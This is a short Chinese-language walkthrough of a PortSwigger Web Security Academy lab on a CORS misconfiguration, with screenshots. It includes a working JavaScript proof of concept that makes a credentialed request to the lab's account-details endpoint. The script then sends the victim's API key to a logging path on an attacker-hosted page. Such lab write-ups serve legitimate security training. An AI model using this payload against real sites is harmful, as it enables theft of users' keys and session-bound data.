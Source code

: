 

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/cors/images/9CFC99DC38A54F39BC2ECD178E451FE9clipboard.png)

首页会显示用户的api密码（在实际渗透中可以是个人敏感信息，csrf令牌....)

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/cors/images/948B366CE323426C9421A6132E6FD0DBclipboard.png)

观察到api密钥是通过一个ajax接口返回到页面。直接访问接口，并将请求来源跟改为任意网站可以获取到密钥，说明存在cors漏洞

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/cors/images/06241A7E81BD4BD8B925AAE265C88854clipboard.png)



poc:

```javascript
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://ac0c1f2b1efc321180e1a18c007100d3.web-security-academy.net/accountDetails',true);
   //
   req.withCredentials = true;
   req.send();

   function reqListener() {
    location='/log?key='+this.responseText;
   };
</script>
```

将该脚本部署到恶意网站，用户访问即可记录下受害者的api密钥

在访问记录中，发现被记录的api密钥，提交即可

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/cors/images/F06ACBB3ADF14BAD893C6A473FEDEE1Dclipboard.png)

